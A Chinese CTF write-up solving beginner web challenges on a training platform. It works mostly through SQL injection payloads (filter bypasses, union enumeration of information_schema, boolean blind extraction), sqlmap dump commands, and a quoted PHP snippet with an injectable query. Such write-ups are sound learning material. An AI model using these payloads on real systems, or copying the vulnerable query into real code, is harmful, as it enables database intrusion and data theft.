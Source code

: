 <!-- WriteUp 1 -->
<!-- 五道简单题 -->
# https://ctf.mukeran.cn/web/writeups/1

本次WriteUp中四道题为SQLi，一道题为源代码分析，这是我第一次做CTF题目并写WriteUp，如不规范敬请谅解。  
因未找到合适的图床，这篇WriteUp里面没有图片，可能以后会补上...

[简单的SQL注入 - 实验吧](http://www.shiyanbar.com/ctf/1875 "前往实验吧")
----
1. `id=1'` 发现报SQL格式错误，可能存在字符型注入
2. `id=1' and '1'='1` 无返回值，可能被关键词过滤，于是直接尝试`id=1'/**/and/**/'1'='1`，发现有返回值(事实上看其他WP发现是过滤了and和一个空格，包括其他的select等)，尝试`id=1'/**/and/**/'1'='2`，发现无返回值。
3. 然后`id=1'/**/union/**/select/**/database()'`，发现当前数据库的名称为`web1` (这里有一个注意的是，经测试`select database()`后面可以紧跟一对`''`，而不能使用`where`，其他`select`需要`where '1'='1`来完成`''`的配对)
4. 然后`id=1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema='web1'/**/and/**/'1'='1` 发现报错，根据SQL错误信息，发现可能是table\_schema被过滤了，我们将其替换为table\_table\_schemaschema，即`id=1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_table_schemaschema='web1'/**/and/**/'1'='1` 得到可疑的table--flag
5. 然后`id=1'/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_table_schemaschema='web1'/**/and/**/table_name='flag'/**/where/**/'1'='1` 发现又报错了，这次information\_schema.columns和column\_name被过滤了，然后`id=1'/**/union/**/select/**/column_column_namename/**/from/**/information_information_schema.columnsschema.columns/**/where/**/table_table_schemaschema='web1'/**/and/**/table_name='flag'/**/and/**/'1'='1` 得到可疑的column--flag
6. 最后`id=1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1` 得到flag

[简单的SQL注入2 - 实验吧](http://www.shiyanbar.com/ctf/1908 "前往实验吧")
----
1. 用上面那道题的步骤进行尝试，在第2步时用database()发现被过滤，于是直接`id=1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1` 得到可疑的database--web1
2. 接着用上面那道题的步骤测试，发现第5步报错，应该是删除了过滤table_schema, information_schema.columns, column_name，修改`id=1'/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_schema='web1'/**/and/**/table_name='flag'/**/and/**/'1'='1` 得到可疑column--flag
3. 最后`id=1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1` 得到flag

两道题过滤规则不同


[简单的SQL注入3 - 实验吧](http://www.shiyanbar.com/ctf/1909 "前往实验吧")
----
1. `id=1` 返回Hello!，`id=1'` 报错，存在字符型注入，`id=1' and '1'='1` 返回Hello!，`id=1' and '1'='2` 无返回，可以boolean注入
2. 利用SQL报错获得数据库名`id=1' and (select count(*) from 表名) > 0 and '1'='1`(也可以`> 0 #`用`#`注释掉后面的内容进行尝试，但是这样做的话如果原程序中本来后面还有一些必要的语句，则会失败报错)，得到数据库名web1
3. 用字典爆破的方法爆破flag所在table。先试试flag`id=1' and (select count(*) from information_schema.tables where table_schema='web1') > 0 and '1'='1`，返回Hello!，说明存在表flag
4. 用字典爆破的方法爆破表flag中的列。同样先试flag`id=1' and (select count(flag) from flag) > 0 and '1'='1`，返回Hello!，说明存在列flag，`id=1' and (select count(flag) from flag) > 1 and '1'='1`，无返回，说明就只有一行
5. 那么flag一定是在flag列，唯一的一行里面了，我们枚举爆破一下flag的长度`id=1' and (select length(flag) from flag) > {length} and '1'='1`，得到长度为26
6. 我们用ASCII爆破，用burp或者写一个Python脚本`id=1' and ascii(substr((select flag from flag), {start}, 1))={ascii} and '1'='1`爆破得到flag

后面爆破用burp或者Python，写Python其实也比较简便，后面会补充代码


[这个看起来有点简单! - 实验吧](http://www.shiyanbar.com/ctf/33 "前往实验吧")
----
1. `id=1'`，发现报错，可能存在字符型注入。然后`id=1' and '1'='1`发现还是报错，说明程序中`id={?}`并未加引号，直接尝试`id=1 and 1=1`正常查询，`id=1 and 1=2`无结果，说明可以布尔型注入
2. 尝试`union select`，发现并不行，且网页的输出是按字段输出的，所以`union`查询可能不可行(手动做的话只能用count了)
3. 用sqlmap.py尝试`sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" --current-db`可以正常查询到当前数据库"my_db"
4. `sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D "my_db" --tables` 得到table--thiskey
5. `sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D "my_db" -T "thiskey" --dump"` 得到flag


[忘记密码了 - 实验吧](http://www.shiyanbar.com/ctf/1808 "前往实验吧")
----
1. 随便输入之后，点击提交，发现alert了一个step2.php的url
2. 进入step2.php，发现直接显示页面后被跳转回step1.php，我们直接用浏览器`view-source:http://ctf5.shiyanbar.com/10/upload/step2.php` 发现其中一个form将内容提交到了submit.php，并且页面中我们看到有Vim留下来的meta，有可能是因为Vim编辑的swap文件没有被删除
3. 访问submit.php，提示不是管理员，我们先尝试一下这个目录中是否有submit.php的swap文件，访问.submit.php.swp，发现真有，里面部分代码：
```php
if(!empty($token)&&!empty($emailAddress)){
	if(strlen($token)!=10) die('fail');
	if($token!='0') die('fail');
	$sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
	$r = mysql_query($sql) or die('db error');
	$r = mysql_fetch_assoc($r);
	$r = $r['num'];
	if($r>0){
		echo $flag;
	}else{
		echo "失败了呀";
	}
}
```
发现这个token的长度是10，根据上面还要求邮箱为管理员邮箱，我们分析step2.php网页源码，发现meta留下管理员邮箱，并且swap文件里面有数据库结构，其中token有default '0'，我们直接尝试token为000000000，发现正确，得到flag
